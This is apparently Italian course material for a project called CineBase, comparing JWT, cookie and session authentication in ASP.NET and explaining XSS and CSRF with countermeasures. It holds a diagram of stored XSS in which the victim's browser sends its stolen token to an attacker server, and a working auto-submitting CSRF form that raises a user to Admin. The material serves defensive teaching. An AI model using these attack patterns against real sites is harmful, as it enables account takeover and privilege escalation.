#### 10.1.4 Diagramma: attacco XSS stored con furto token


```mermaid
sequenceDiagram
    actor ATT as Attaccante
    actor USR as Utente legittimo
    participant APP as Applicazione CineBase
    participant DB as Database
    participant SRV as Server attaccante

    ATT->>APP: Inserisce titolo film con payload script malevolo
    APP->>DB: Salva titolo non sanificato
    note over DB: Il payload è ora nel database

    USR->>APP: Naviga sulla pagina film
    APP->>DB: Legge titoli film
    DB-->>APP: Restituisce titoli (incluso payload)
    APP-->>USR: Renderizza HTML con script iniettato
    note over USR: Il browser esegue lo script
    USR->>SRV: GET /steal?token=eyJ... (token rubato)
    SRV-->>ATT: Notifica con token della vittima
    ATT->>APP: Usa token rubato per chiamate API non autorizzate
```

#### 10.1.5 Perché XSS è particolarmente pericoloso con localStorage

Quando i token sono in `localStorage`, uno script XSS può:

1. leggere access token e refresh token con `localStorage.getItem()`
2. inviarli a un server esterno
3. usarli per impersonare l'utente colpito fino alla scadenza (o finché non viene eseguito il logout)

Con access token in **memoria JavaScript** e refresh token in **cookie `HttpOnly`**, lo script XSS non ha accesso né all'uno né all'altro: il furto del token diventa strutturalmente impossibile anche in presenza di un'iniezione riuscita.

#### 10.1.6 Contromisure principali

| Contromisura | Descrizione | Efficacia |
|---|---|---|
| **Sanificazione dell'output** | Codificare i caratteri speciali HTML (`<`, `>`, `"`, `'`, `&`) prima di inserirli nel DOM | Alta — previene l'iniezione |
| **Content Security Policy (CSP)** | Header HTTP che limita quali script possono essere eseguiti | Alta — limita l'impatto anche se l'iniezione avviene |
| **Cookie `HttpOnly`** | Impedisce a JavaScript di leggere il cookie | Alta — protegge i token nei cookie |
| **Token in memoria** | L'access token non è in storage accessibile da JS | Alta — protegge l'access token |
| **Librerie sicure per il rendering** | Framework come React/Vue codificano automaticamente l'output | Alta — riduce il rischio nel codice applicativo |
| **Validazione input lato server** | Rifiutare input con caratteri non attesi | Media — non sufficiente da sola |

---

### 10.2 CSRF — Cross-Site Request Forgery

#### 10.2.1 Definizione

CSRF è un attacco in cui un aggressore convince il browser di un utente autenticato a **inviare una richiesta non voluta** verso l'applicazione legittima, sfruttando il fatto che il browser invia automaticamente i cookie a ogni richiesta verso il dominio corretto.

A differenza di XSS, il codice malevolo non viene eseguito nell'applicazione vittima: viene eseguito in una **pagina diversa** (controllata dall'attaccante) che forza il browser della vittima a fare una richiesta al sito legittimo.

Il punto chiave è che l'attaccante **non vede la risposta** della richiesta (cross-origin): ma in molti casi non ha bisogno di vederla. Gli basta far eseguire un'azione (es. un trasferimento, un cambio password, una prenotazione).

#### 10.2.2 Esempio concreto: CSRF contro autenticazione cookie

Si immagini che CineBase usi la cookie authentication e che un utente autenticato visiti una pagina malevola `https://sito-malevolo.it`. Quella pagina contiene:

```html
<!-- Pagina malevola su sito-malevolo.it -->

```

Il browser, vedendo il tag ``, esegue una richiesta GET verso `cinebase.it`. Poiché l'utente è autenticato su CineBase, il browser allega automaticamente il cookie di sessione. Il server CineBase riceve la richiesta con cookie valido e la esegue come se venisse dall'utente.

Per richieste POST il meccanismo è analogo, tramite form nascosto:

```html
<form id="csrf-form" action="https://cinebase.it/admin/utenti/5/ruolo"
      method="POST" style="display:none">
  <input name="ruolo" value="Admin">
</form>
<script>document.getElementById('csrf-form').submit();</script>
```

#### 10.2.3 Diagramma: attacco CSRF con cookie


```mermaid
sequenceDiagram
    actor USR as Utente (autenticato su CineBase)
    participant MAL as Sito malevolo
    participant APP as CineBase (sito legittimo)
    participant DB as Database

    USR->>APP: Login su CineBase
    APP-->>USR: Set-Cookie session=abc123

    note over USR: Utente naviga su un altro sito
    USR->>MAL: Visita sito-malevolo.it
    MAL-->>USR: HTML con form/img nascosto verso CineBase

    note over USR: Il browser esegue la richiesta cross-site automaticamente
    USR->>APP: POST /admin/utenti/5/ruolo + Cookie session=abc123 (inviato automaticamente)
    APP->>APP: Cookie valido, utente autenticato
    APP->>DB: Modifica ruolo utente 5
    APP-->>USR: 200 OK
    note over USR: Azione eseguita senza che l'utente ne fosse consapevole
```

#### 10.2.4 Perché CSRF non colpisce JWT in Authorization header

Quando i token vengono inviati nell'header `Authorization: Bearer <token>` (come in CineBase), il CSRF **non è applicabile**. Il motivo è preciso: il browser invia automaticamente i **cookie**, ma **non aggiunge da solo header personalizzati** come `Authorization`. Quell'header deve essere impostato esplicitamente dal codice JavaScript dell'applicazione legittima.

Un sito malevolo che forza il browser a fare una richiesta cross-origin non può aggiungere l'header `Authorization`, quindi la richiesta arriva al backend senza token e viene rifiutata con `401 Unauthorized`.


```mermaid
sequenceDiagram
    actor USR as Utente (token in localStorage)
    participant MAL as Sito malevolo
    participant APP as CineBase API (JWT)

    USR->>MAL: Visita sito-malevolo.it
    MAL-->>USR: HTML con richiesta cross-origin verso CineBase

    USR->>APP: POST /prenotazioni (senza header Authorization)
    note over APP: Nessun header Authorization presente
    APP-->>USR: 401 Unauthorized
    note over USR: Attacco CSRF fallisce
```

#### 10.2.5 Quando CSRF torna rilevante: cookie HttpOnly con JWT

Se si adotta lo schema production-grade (access token in memoria, refresh token in cookie `HttpOnly`), la chiamata a `POST /auth/refresh` invia il cookie automaticamente. Questo endpoint diventa quindi potenzialmente vulnerabile a CSRF.

La difesa standard in questo caso è il flag `SameSite=Strict` sul cookie, che impedisce al browser di inviarlo in contesti cross-site:

```csharp
ctx.Response.Cookies.Append("refresh_token", value, new CookieOptions
{
    HttpOnly = true,
    Secure = true,
    SameSite = SameSiteMode.Strict,  // blocca invio cross-site
    Path = "/auth/refresh"            // scope limitato al solo endpoint
});
```

Con `SameSite=Strict` il cookie viene inviato **solo se la navigazione parte dallo stesso sito**: una richiesta da `sito-malevolo.it` verso `cinebase.it/auth/refresh` non porterà il cookie.

#### 10.2.6 Contromisure principali per CSRF

| Contromisura | Descrizione | Applicabile a |
|---|---|---|
| **`SameSite=Strict`** | Il browser non invia il cookie in richieste cross-site | Cookie-based, refresh token in cookie |
| **`SameSite=Lax`** | Come Strict ma consente navigazione GET da link esterni | Cookie-based con minor restrizione |
| **CSRF token** | Token segreto per sessione incluso nel form e verificato lato server | Cookie-based classico |
| **Header personalizzato** | Richiedere un header custom (es. `X-Requested-With`) che i form cross-site non possono impostare | API con cookie |
| **Verifica `Origin`/`Referer`** | Il server controlla che la richiesta parta dal dominio atteso | Tutte le architetture |
| **Bearer token in header** | Non usa cookie: CSRF non applicabile per definizione | JWT in Authorization header |

---

### 10.3 XSS e CSRF a confronto: tabella riepilogativa

| Aspetto | XSS | CSRF |
|---|---|---|
| **Meccanismo** | Esecuzione di codice JS malevolo nel browser della vittima | Richiesta non voluta inviata dal browser della vittima |
| **Origine del codice malevolo** | Iniettato nell'applicazione vittima | Eseguito da un sito esterno |
| **Cosa sfrutta** | Mancanza di sanificazione dell'output | Invio automatico dei cookie da parte del browser |
| **Visibilità risposta** | L'attaccante vede la risposta (stesso origine) | L'attaccante non vede la risposta (cross-origin) |
| **Colpisce `localStorage`** | Sì — lo script legge direttamente i token | No — JS del sito malevolo non accede a localStorage altrui |
| **Colpisce cookie `HttpOnly`** | No — JS non può leggerli | Sì — il browser li invia automaticamente |
| **Colpisce JWT in header** | Sì, se il token è in storage accessibile da JS | No — il browser non aggiunge header Authorization autonomamente |
| **Difesa principale** | Sanificazione output + CSP + token in memoria | `SameSite=Strict` + CSRF token |

---

### 10.4 Implicazione pratica per CineBase

| Scenario | Esposto a XSS | Esposto a CSRF | Note |
|---|---|---|---|
| JWT in `localStorage` (attuale) | Sì | No | Mitigare con CSP e sanificazione |
| JWT in memoria + refresh in cookie `HttpOnly` con `SameSite=Strict` | No | No (grazie a SameSite) | Schema ideale per produzione |
| Cookie-based senza `SameSite` | No (token non in JS) | Sì | Configurazione pericolosa |
| Cookie-based con `SameSite=Strict` | No | No | Valida alternativa se stesso dominio |

---

## 11. Alternativa: autenticazione cookie-based

### 11.1 Che cosa sono i cookie

Un cookie è una piccola coppia `chiave=valore` che il server chiede al browser di memorizzare tramite header `Set-Cookie`.

Il browser, in presenza di condizioni compatibili (dominio, path, policy), reinvia automaticamente il cookie nelle richieste successive tramite header `Cookie`.

### 11.2 Proprietà principali lato client e lato server

| Proprietà | Significato | Impatto didattico |
|---|---|---|
| `HttpOnly` | cookie non leggibile da JavaScript | riduce furto via XSS |
| `Secure` | inviato solo su HTTPS | evita esposizione in chiaro |
| `SameSite` (`Strict`/`Lax`/`None`) | regola invio cross-site | difesa importante contro CSRF |
| `Domain` | domini a cui il cookie si applica | controllo scope |
| `Path` | percorsi interessati | controllo scope fine |
| `Expires` / `Max-Age` | durata cookie | gestione persistenza |

### 11.3 Vantaggi e limiti dei cookie

**Vantaggi**

- invio automatico dal browser
- con `HttpOnly` riduce l'esposizione del token a JavaScript
- integrabile bene con app web server-rendered

**Limiti**

- richiede attenzione elevata alla protezione CSRF
- gestione CORS/cross-origin più delicata
- meno comodo in architetture API-first multi-client (web + mobile + integrazioni)

---

## 12. Cookie-based auth in ASP.NET Minimal API (concetto)

### 12.1 Configurazione base (esempio didattico)

```csharp
using Microsoft.AspNetCore.Authentication.Cookies;
using System.Security.Claims;

var builder = WebApplication.CreateBuilder(args);

builder.Services
    .AddAuthentication(CookieAuthenticationDefaults.AuthenticationScheme)
    .AddCookie(options =>
    {
        options.Cookie.Name = "cinebase.auth";
        options.Cookie.HttpOnly = true;
        options.Cookie.SecurePolicy = CookieSecurePolicy.Always;
        options.Cookie.SameSite = SameSiteMode.Lax;
        options.ExpireTimeSpan = TimeSpan.FromHours(8);
        options.SlidingExpiration = true;
    });

builder.Services.AddAuthorization();

var app = builder.Build();

app.UseAuthentication();
app.UseAuthorization();

app.MapPost("/login", async (HttpContext ctx) =>
{
    // Verifica credenziali (omessa)
    var claims = new List<Claim>
    {
        new Claim(ClaimTypes.NameIdentifier, "123"),
        new Claim(ClaimTypes.Email, "user@example.com"),
        new Claim(ClaimTypes.Role, "User")
    };

    var identity = new ClaimsIdentity(
        claims,
        CookieAuthenticationDefaults.AuthenticationScheme);

    await ctx.SignInAsync(
        CookieAuthenticationDefaults.AuthenticationScheme,
        new ClaimsPrincipal(identity));

    return Results.Ok();
});

app.MapPost("/logout", async (HttpContext ctx) =>
{
    await ctx.SignOutAsync(CookieAuthenticationDefaults.AuthenticationScheme);
    return Results.NoContent();
}).RequireAuthorization();

app.MapGet("/me", (HttpContext ctx) =>
{
    var email = ctx.User.FindFirstValue(ClaimTypes.Email);
    return Results.Ok(new { email });
}).RequireAuthorization();

app.Run();
```

### 12.2 Osservazioni didattiche

- il browser invia il cookie automaticamente
- il backend riconosce l'utente tramite cookie + ticket
- in scenari API puri si deve progettare con cura anti-CSRF e CORS

### 12.3 Diagramma di sequenza: cookie-based authentication (ASP.NET Core)


```mermaid
sequenceDiagram
    actor U as Utente
    participant B as Browser
    participant API as Backend ASP.NET

    U->>B: Inserisce credenziali
    B->>API: POST /login
    API->>API: Verifica credenziali
    API->>API: Crea ClaimsPrincipal + ticket di autenticazione
    API-->>B: Set-Cookie cinebase.auth (HttpOnly, Secure)

    B->>API: GET /me con cookie automatico
    API->>API: Decifra e valida ticket dal cookie
    API->>API: Ricostruisce utente e ruoli
    API-->>B: 200 Dati utente

    B->>API: POST /logout
    API-->>B: Set-Cookie cinebase.auth scaduto
```

---

## 13. Altri meccanismi di riconoscimento (panoramica)

### 13.1 Basic Authentication

**Come funziona**:

- il client invia `Authorization: Basic base64(username:password)` a ogni richiesta

**Caratteristiche**:

- molto semplice da implementare
- senza HTTPS è gravemente insicura
- anche con HTTPS, inviare password continuamente non è ideale

**Uso tipico**:

- test rapidi
- ambienti interni limitati
- integrazioni legacy

**Non consigliata** per CineBase in produzione didattica estesa.

### 13.2 Session server-side classica

Nel modello a sessione server-side classica, il server mantiene lo stato utente in una struttura di sessione e il client conserva solo un identificatore di sessione (session id), di norma inviato in cookie.

In pratica, il flusso è il seguente:

1. l'utente esegue il login con credenziali valide
2. il server crea una sessione (es. record in memoria o cache distribuita)
3. il server restituisce un cookie contenente il session id
4. il browser invia automaticamente il cookie nelle richieste successive
5. il server legge il session id, recupera la sessione e riconosce l'utente

### Proprietà e comportamento operativo

- **Stato lato server**: i dati principali dell'identità non stanno nel client, ma nel backend.
- **Revoca immediata**: invalidando la sessione sul server, l'utente risulta disconnesso subito.
- **Dipendenza dall'infrastruttura**: in ambienti con più istanze serve session store condiviso (es. Redis) oppure sticky session.
- **Scadenza sessione**: gestita dal server (idle timeout e/o timeout assoluto).

### Vantaggi principali

- controllo centralizzato dello stato e revoca semplice
- esposizione minore dei dati di identità nel client
- modello intuitivo in applicazioni web monolitiche

### Limiti principali

- scalabilità più complessa rispetto a token stateless
- maggiore accoppiamento con il browser (cookie/sessione)
- meno naturale per ecosistemi multi-client (SPA separata, mobile, integrazioni esterne)

### Quando è una buona scelta

La sessione server-side è spesso appropriata quando:

- frontend e backend sono nello stesso perimetro web tradizionale
- l'applicazione è prevalentemente browser-based
- si privilegia il controllo centralizzato delle sessioni rispetto alla portabilità dei token

Nel caso CineBase (frontend e backend separati, orientamento API-first), è un'opzione possibile ma in genere meno ergonomica del modello JWT + refresh token.

### 13.2.1 Differenza reale tra cookie-based auth e session server-side

Questa distinzione è importante perché spesso i due concetti vengono sovrapposti.

**Cookie-based authentication (tipica di ASP.NET Core con `AddCookie`)**

- il cookie contiene un **ticket di autenticazione protetto** (cifrato e firmato)
- il backend, a ogni richiesta, valida il ticket e ricostruisce le claim
- non è obbligatorio un session store server-side per funzionare
- in questo senso il modello è "stateful nel browser" ma non necessariamente "session-based sul server"

**Session server-side classica**

- il cookie contiene solo un **session id**
- lo stato identitario/di sessione risiede principalmente nel server (memoria, Redis, DB)
- a ogni richiesta il backend deve fare lookup della sessione
- il modello dipende da infrastruttura di session store, soprattutto con più istanze

In sintesi: usare un cookie non implica automaticamente usare sessione server-side. In ASP.NET Core, la cookie authentication standard e la sessione server-side sono due modelli correlati ma distinti.

### 13.2.2 Diagramma di sequenza: session server-side classica


```mermaid
sequenceDiagram
    actor U as Utente
    participant B as Browser
    participant API as Backend
    participant STORE as Session Store (Redis/DB)

    U->>B: Inserisce credenziali
    B->>API: POST /login
    API->>API: Verifica credenziali
    API->>STORE: Crea sessione utente (sessionId -> dati)
    STORE-->>API: Sessione creata
    API-->>B: Set-Cookie sid uguale a sessionId

    B->>API: GET /me + Cookie sid
    API->>STORE: Lookup sessionId
    STORE-->>API: Dati sessione e ruoli
    API-->>B: 200 Dati utente

    B->>API: POST /logout + Cookie sid
    API->>STORE: Invalida sessione
    API-->>B: Set-Cookie sid scaduto
```

### 13.3 OAuth2 / OpenID Connect (cenno)

Per scenari enterprise o SSO, l'identità viene delegata a un Identity Provider esterno (Azure AD, Keycloak, Auth0, ecc.).

Potrebbe essere un'evoluzione futura, ma introduce complessità superiore al perimetro attuale.

---

## 14. Confronto sintetico tra approcci

| Criterio | JWT + Refresh | Cookie-based (ticket nel cookie) | Session server-side classica | Basic Auth |
|---|---|---|---|---|
| Scalabilità API-first | Alta | Media | Media-Bassa (richiede session store condiviso su più istanze) | Bassa |
| Facilità integrazione multi-client | Alta | Media | Bassa-Media | Bassa |
| Sicurezza out-of-the-box | Media (dipende da implementazione) | Media-Alta (con HttpOnly/SameSite) | Media-Alta (stato centralizzato, ma richiede hardening cookie/sessione) | Bassa |
| Complessità implementativa | Media | Media | Media-Alta (session store, timeout, invalidazione) | Bassa |
| Dove risiede lo stato identità | Principalmente nel token | Principalmente nel ticket protetto nel cookie | Principalmente nel server (session store) | Nelle credenziali inviate ogni volta |
| Lookup server a ogni richiesta | Non necessario per access token | Non necessario in forma base | Necessario (session id -> sessione) | Non necessario |
| Dipendenza da session store condiviso | Bassa | Bassa | Alta in scaling orizzontale | Bassa |
| Revoca centralizzata immediata | Media (tipica su refresh token) | Media | Alta | Bassa |
| Adatto a RBAC granulari | Alta | Alta | Alta | Bassa |
| Adatto a CineBase | **Molto adatto** | Possibile alternativa | Alternativa meno naturale | Non adatto |

---

## 15. Quale meccanismo è più adatto per CineBase

### 15.1 Valutazione nel contesto specifico

Per CineBase, l'approccio più coerente è il modello **token-based con access token + refresh token** per i seguenti motivi:

1. architettura già separata tra frontend e backend API
2. necessità di RBAC esplicito su endpoint diversi
3. possibile evoluzione futura verso client aggiuntivi (mobile, integrazioni)
4. facilità di test automatizzati su ruoli e policy

### 15.2 Posizionamento della sessione server-side in CineBase

La sessione server-side classica resta una tecnologia valida e matura, ma nel contesto di CineBase presenta alcuni compromessi:

- richiede una gestione più infrastrutturale in caso di scaling orizzontale (session store condiviso)
- è meno allineata al paradigma API-first e al consumo da client eterogenei
- aumenta la dipendenza dal modello browser + cookie rispetto a bearer token espliciti

Pertanto, per CineBase può essere considerata una **seconda scelta architetturale**: funziona, ma risulta generalmente meno lineare dell'approccio JWT + refresh token in questa specifica struttura.

### 15.3 Chiarimento operativo: cookie-based vs session-based in ASP.NET Core

Nel contesto ASP.NET Core, è corretto dire che la cookie authentication usa un cookie per riconoscere l'utente e applicare i permessi. Tuttavia, questo non implica automaticamente un modello a sessione server-side.

La differenza pratica è questa:

- con `AddCookie` standard, il cookie trasporta un ticket autenticazione protetto con le claim; il server non deve necessariamente leggere una sessione centralizzata a ogni richiesta
- con sessione server-side classica, il cookie trasporta un identificatore e il server recupera lo stato da un archivio di sessione

Quindi la vera differenza non è "cookie sì o no", ma **dove risiede lo stato di autenticazione** (nel ticket lato client oppure nel session store lato server).

### 15.4 Quando valutare cookie-based o sessione classica invece

La cookie authentication diventa molto interessante se:

- frontend e backend condividono lo stesso dominio applicativo
- si vuole minimizzare l'esposizione dei token a JavaScript (`HttpOnly`)
- si accetta una progettazione anti-CSRF più rigorosa

La sessione server-side classica diventa invece molto interessante se:

- l'applicazione è monolitica o quasi-monolitica
- il team vuole revoca centralizzata immediata e forte controllo del ciclo di vita sessione
- è già disponibile un'infrastruttura di session store affidabile

In un percorso didattico, è utile studiare entrambi i modelli: token-based come riferimento API-first, cookie-based come riferimento web classico.

---

## 16. Checklist didattica per discussione in aula

Di seguito una traccia utile per guidare il confronto con gli studenti:

1. spiegare perché HTTP non ricorda lo stato utente
2. distinguere autenticazione da autorizzazione
3. simulare mentalmente login, chiamata protetta, refresh e logout
4. discutere la differenza `401` vs `403`
5. mostrare come il ruolo influenza API e UI
6. confrontare token-based e cookie-based con esempi reali
7. analizzare minacce principali (XSS, CSRF, token theft)
8. motivare la scelta architetturale per CineBase

---

## 17. Glossario essenziale

- **JWT**: JSON Web Token, token firmato con claim
- **Claim**: informazione identitaria/autorizzativa nel token
- **Refresh token rotation**: emissione di un nuovo refresh token a ogni rinnovo
- **Revoca**: invalidazione server-side di un refresh token
- **CORS**: regole browser per richieste cross-origin
- **CSRF**: attacco che sfrutta invio automatico credenziali (tipico dei cookie)
- **XSS**: esecuzione di script malevolo nel browser della vittima

---

## 18. Conclusione

Nel contesto CineBase, il meccanismo token-based con access token e refresh token offre un equilibrio efficace tra sicurezza, controllo dei ruoli e flessibilità architetturale. La comprensione del carattere stateless di HTTP è il punto di partenza essenziale: solo dopo questa consapevolezza diventano chiari i motivi tecnici delle scelte progettuali.

Per una formazione completa, la trattazione deve includere anche cookie-based authentication e basic authentication, in modo che gli studenti imparino a scegliere il meccanismo corretto in base a contesto, vincoli e obiettivi applicativi.

---

## 19. Appendice - Aggiornamento implementativo Aprile 2026

Questa appendice documenta le modifiche reali introdotte nel codice CineBase per migliorare il ciclo di vita dei refresh token.

### 19.1 Nuovi vincoli funzionali introdotti

1. **Binding refresh token al device**
   - ogni richiesta auth (`/auth/login`, `/auth/register`, `/auth/refresh`, `/auth/logout`) include ora `deviceId`
   - il backend valida che il refresh token sia usato solo dal device associato

2. **Limite token attivi per utente/device**
   - al rilascio di un nuovo refresh token, eventuali token attivi dello stesso `UserId + DeviceId` vengono revocati
   - risultato: massimo 1 refresh token attivo per coppia utente/device

3. **Cleanup periodico server-side**
   - un hosted service rimuove periodicamente record `RefreshTokens` revocati o scaduti
   - la tabella non cresce indefinitamente anche con molti login/refresh

4. **Refresh proattivo lato route guard**
   - prima del redirect a login per token accesso scaduto, il frontend tenta un refresh silenzioso
   - riduce redirect non necessari e migliora continuita sessione

### 19.2 Modellazione dati aggiornata

La tabella `RefreshTokens` include ora:

- `Token`
- `UserId`
- `DeviceId` (nuovo)
- `CreatedAt`
- `ExpiresAt`
- `RevokedAt`

Indici rilevanti:

- univoco su `Token`
- indice su `UserId`
- indice composto su `(UserId, DeviceId)`

### 19.3 Device identity lato frontend

Nel modulo `auth.js` il frontend mantiene un identificatore persistente `cb_device_id` in `localStorage`:

- se assente, viene generato con `crypto.randomUUID()`
- fallback legacy: se esiste un refresh token ma non il deviceId, viene usato `web-default`

Questo permette compatibilita con i token storici pre-migrazione.

### 19.4 Flusso aggiornato di refresh con vincolo device


```mermaid
sequenceDiagram
    participant FE as Frontend
    participant API as /auth/refresh
    participant DB as RefreshTokens

    FE->>API: POST /auth/refresh {refreshToken, deviceId}
    API->>DB: cerca token
    API->>API: verifica IsActive
    API->>API: verifica token.DeviceId == request.deviceId

    alt valido e stesso device
        API->>DB: revoca token corrente
        API->>DB: revoca eventuali token attivi UserId+DeviceId
        API->>DB: inserisce nuovo refresh token
        API-->>FE: 200 {accessToken, refreshToken}
    else non valido o device mismatch
        API-->>FE: 401 Unauthorized
    end
```

### 19.5 Cleanup periodico dei refresh token


```mermaid
flowchart TD
    A[Timer hosted service] --> B[query RefreshTokens]
    B --> C{RevokedAt != null\noppure ExpiresAt <= now?}
    C -- no --> D[attendi tick successivo]
    C -- si --> E[RemoveRange tokens]
    E --> F[SaveChanges]
    F --> D
```

Variabile ambiente opzionale:

- `REFRESH_TOKEN_CLEANUP_INTERVAL_MINUTES` (default: `30`)

### 19.6 Impatto operativo e sicurezza

- riduzione forte del riuso cross-device dei refresh token
- riduzione del numero di token attivi contemporanei per account
- riduzione accumulo storico in tabella grazie alla pulizia automatica
- UX migliore: meno redirect forzati al login quando il refresh e ancora valido

### 19.7 Nota su migrazione DB

La migrazione aggiunge `DeviceId` con default `web-default` e aggiorna i record preesistenti vuoti. In questo modo i token già emessi non vengono invalidati immediatamente durante il rollout.
